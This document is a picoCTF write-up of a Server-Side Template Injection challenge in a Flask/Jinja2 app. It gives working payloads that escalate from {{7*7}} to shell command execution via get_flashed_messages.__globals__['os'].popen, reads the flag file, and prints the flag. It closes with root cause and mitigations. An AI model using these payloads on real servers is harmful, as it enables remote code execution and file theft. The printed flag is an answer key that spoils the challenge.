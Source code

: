 ```markdown
# picoCTF – Server-Side Template Injection (SSTI) – Writeup
```

**Category:** Web Exploitation  
**Platform:** picoCTF (picoGym)  
**Challenge link:** [https://play.picoctf.org/practice/challenge/492](https://play.picoctf.org/practice/challenge/492)  
**Vulnerability:** Server-Side Template Injection (Jinja2 / Flask)  
**Flag:** `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}`

---

## 📝 Overview
The target web app reflects user input into a server-side template without proper sanitization.  
That allows Jinja2 expressions to be evaluated on the server (SSTI), which we can escalate to arbitrary command execution and read the flag file.

References:  
- [PortSwigger — Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection)  
- [Flask docs — Message Flashing](https://flask.palletsprojects.com/en/stable/patterns/flashing/)

---

## 🔍 Recon & Vulnerability Discovery

### 1) Probe for SSTI
Start with a math probe to see if the template engine evaluates input:

```jinja
{{7*7}}
```

**Result:** The page returns `49`.
This confirms server-side evaluation (Jinja2).

---

### 2) Enumerate exposed objects

Try common objects to gauge context:

```jinja
{{ config }}
{{ request }}
{{ request.args }}
{{ request.headers }}
```

**Observed:**

```
{{ config }} -> <Config {'DEBUG': False, ...}>
{{ request.args }} -> ImmutableMultiDict([])
{{ request.headers }} -> (headers dump)
```

This strongly suggests **Flask + Jinja2** with access to Flask’s request context.

---

## 🚀 Privilege Escalation to RCE

Pivot using the flashing mechanism’s helper, which exposes Python modules:

```jinja
{{ get_flashed_messages.__globals__['os'].popen('ls').read() }}
```

**Result:**

```
__pycache__  app.py  flag  requirements.txt
```

✅ Arbitrary command execution confirmed.

> **Why this works:**
> `get_flashed_messages` is a Flask helper available in the Jinja2 environment.
> The function’s `.__globals__` gives access to its module’s namespace, including imported modules like `os`.
> From there, `os.popen()` executes shell commands.

---

## 🎯 Exfiltrate the Flag

With RCE confirmed, read the `flag` file.

**Method A — via shell:**

```jinja
{{ get_flashed_messages.__globals__['os'].popen('cat flag').read() }}
```

**Method B — via Python I/O:**

```jinja
{{ get_flashed_messages.__globals__['__builtins__'].open('flag').read() }}
```

**Output:**

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}
```

---

## ⚠️ Root Cause

* The app renders **untrusted user input** with `render_template_string`.
* Jinja2 expressions (`{{ ... }}`) are evaluated inside the template context.
* Attackers can reach Python builtins/modules like `os`, enabling arbitrary command execution.

---

## 🔒 Mitigations

* Never render raw user input directly into templates.
* Use context variables safely:

  ```python
  render_template("page.html", user=user)
  ```

  and in template: `{{ user|e }}` (escape input).
* Use sandboxed environments or limit exposed globals.
* Apply strict input validation and sanitization.
* Runtime defenses (e.g., WAFs) may block common SSTI payloads but are not substitutes for secure coding.

---

## 📌 TL;DR

1. Test: `{{7*7}}` → `49` (SSTI confirmed).
2. Enumerate: `{{ config }}`, `{{ request }}`.
3. Exploit: `{{ get_flashed_messages.__globals__['os'].popen('ls').read() }}`.
4. Read flag: `{{ ... 'cat flag' ... }}` → `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}`.

---

### 📚 References

* [PortSwigger Web Security Academy — Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection)
* [Flask docs — Message Flashing](https://flask.palletsprojects.com/en/stable/patterns/flashing/)
* [OnSecurity — SSTI with Jinja2](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

```